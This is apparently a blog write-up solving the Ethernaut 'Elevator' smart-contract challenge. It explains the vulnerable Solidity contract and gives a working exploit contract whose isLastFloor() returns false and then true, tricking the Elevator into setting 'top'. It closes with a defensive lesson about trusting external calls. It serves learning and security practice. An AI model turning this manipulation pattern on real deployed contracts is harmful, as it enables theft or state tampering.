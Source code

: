 +++
date = '2024-10-23T01:07:38+05:30'
draft = false
title = 'Elevator'
categories=["Blockchain"]
series="Ethernaut"
tags=["Control Flow Manipulation"]
+++

# Writeup for Elevator

- Hello h4ck3r, welcome to the world of smart contract hacking. Solving the challenges from Ethernaut will help you understand Solidity better. For each challenge, a contract will be deployed, and an instance will be provided. Your task is to interact with the contract and exploit its vulnerabilities. Don't worry if you are new to Solidity and have never deployed a smart contract before. You can learn how to deploy a contract using Remix [here](https://youtu.be/3xNFZI8Ste4?si=i3cWN87OpX85zp6k).

### Challenge Description

This elevator won't let you reach the top of your building. Right?

### Contract Explanation

{{< collapsible "Click to view source contract" >}}
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
bool public top;
uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }

}
{{< /collapsible>}}

If you feel like you understand the contract, you can move to the [exploit](#exploit) part. If you are a beginner, please go through the Contract Explanation as well. It will help you understand Solidity better.

If we see the code, we can observe an `interface` named `Building` and a `contract` named `Elevator`.

In a Solidity contract, an interface is a list of function definitions without implementation. This can be used when we want to interact with deployed contracts. Observe the following example to understand more.

```solidity

contract deployed_Contract{
    uint8 Number=10;
    function increment_Number()public {
        Number++;
    }

    function change_Number(uint8 num)public{
        Number=num;
    }

}
```

Assume that we have deployed this contract. Now somehow we need to interact with this contract. Observe the below code.

```solidity

interface Ideployed_Contract{
    function increment_Number() external;
    function change_Number(uint8) external;
}

contract interact_With_deployed_Contract{
    Ideployed_Contract I_deployedContract;
    constructor(address _addr){
        I_deployedContract=Ideployed_Contract(_addr);
    }

    function increment()public{
        I_deployedContract.increment_Number();
    }

    function change(uint8 _num)public{
        I_deployedContract.change_Number(_num);
    }
}
```

In the above example, assume the first contract is already deployed and we want to interact with the contract. Using the above interface, we can interact with the first deployed contract. The interface will basically say that these are the functions existing on the deployed contract. Try this out in Remix.

```solidity
interface Building {
    function isLastFloor(uint256) external returns (bool);
}
```

The above is the interface of a Building contract, which means the Building contract should have the `isLastFloor()` function because using the interface, we are interacting with the contract. If the function doesn't exist in the building contract, it will revert.

In the Elevator contract, there are two state variables: `top` and `floor`. These variables are just declared in the contract but they weren't initialized in the contract. So initially, the `top` and `floor` values are set to `false` and `zero`, respectively.

```solidity
function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
```

The function `goTo()` is a public function that takes a `uint256` as an argument. The function declares a variable named `building` of type `Building`, which is the interface. It initializes `building` with the `Building` type at the address of `msg.sender`. This means that the `msg.sender` should be a contract.

Then the function makes a call to `isLastFloor()` in the `Building` contract (msg.sender contract). If it returns true, then the following lines won't execute. If it returns false, the following lines will execute.

In the next line, the **floor** variable is set to the argument passed into the `goTo()` function during the call. Then again, the function makes a call to `isLastFloor()` in the `Building` contract (msg.sender contract) and sets the return value to the **top** variable.

### Exploit

Here our task is to make the **top** variable `true`. Once we set the top variable to true, this challenge will be solved.

If we see the contract, the only place where the value of **top** is changed is in the `goTo()` function. So we need to interact with the `goTo()` function.

We should interact with the contract using another contract. In order to do that, we need to write a contract that includes the `isLastFloor()` function. This is because when we make a call to the `goTo()` function in the Elevator contract, the function sets the `building` variable using the interface of `Building` with the address as `msg.sender`.

But if we check the `goTo()` function, in order to enter the if condition and pass the condition, our `isLastFloor()` function should return `false`. Also, once it passes the if condition, it also sets **top** by making one more call to the `isLastFloor()` function. Since our task is to make top `true`, the second time our function is called, our function should return true.

So somehow we need to write logic such that when the Elevator contract first makes a call to `isLastFloor()` in our contract, it should return `false`, and the second time it should return `true`.

{{< collapsible "Click to view Exploit contract" >}}

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Elevator} from "../src/contracts/Elevator.sol";

contract ExploitElevator {
    Elevator elevator;
    bool top = true;

    constructor(address _addr) {
        elevator = Elevator(_addr);
    }

    function isLastFloor(uint256) public returns (bool) {
        top = !top;
        return top;
    }

    function Exploit() public {
        elevator.goTo(100);
    }
}
```

{{< /collapsible>}}

```solidity
function isLastFloor(uint256) public returns (bool) {
    top = !top;
    return top;
}
```

The main logic of the exploit contract is only this function. In the contract, I have declared a `bool` variable named **top** and initialized it to true. So when the `isLastFloor()` is called, top will become `false`, then it will return top (false). Then the next time `isLastFloor()` is called, top is set to true, and then it will return **top** (true).

When you deploy the Exploit contract, pass the address of the `Elevator` contract as an argument to `constructor()` and call the `Exploit()` function. Once the call is done, the challenge will be solved.

### Key Takeaways

Do not rely on external contract calls for critical logic, as they can be manipulated. Ensure that important conditions and state changes are handled within the contract itself.

 <p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>
